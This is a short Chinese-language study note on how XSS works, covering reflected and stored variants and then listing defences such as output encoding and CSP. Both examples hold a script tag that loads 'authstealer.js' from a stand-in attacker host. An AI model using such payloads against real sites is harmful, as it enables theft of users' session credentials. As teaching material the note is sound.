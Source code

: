 

## XSS攻击原理及类型？

**原理**

在客户端向网页中写入可执行脚本，然后提交给服务器，服务器生成包含该脚本的网页。

**非持久性XSS**

写入可执行脚本的网页是临时的，脚本信息不会保存到数据库。

```
网站：search.com
A：发现 search.com?q=XXX页面显示“查询到XXX”
A: 修改 search.com?q=http://bobssite.org?q=dogs%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E
A: 链接发送给B
B: 访问链接，执行js
```

**持久性XSS**

脚本信息会保存到数据库。

```
网站：comment.com
A: 发表评论‘I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">’
A: 将包含评论的页面链接发给B
B: 访问链接，执行js
```

## 防范措施？
1. 上下文输出编码/转义字符串输入
2. 安全验证不受信任的HTML输入
3. Cookie增加IP验证
4. 禁用脚本
5. 使用CSP内容安全策略
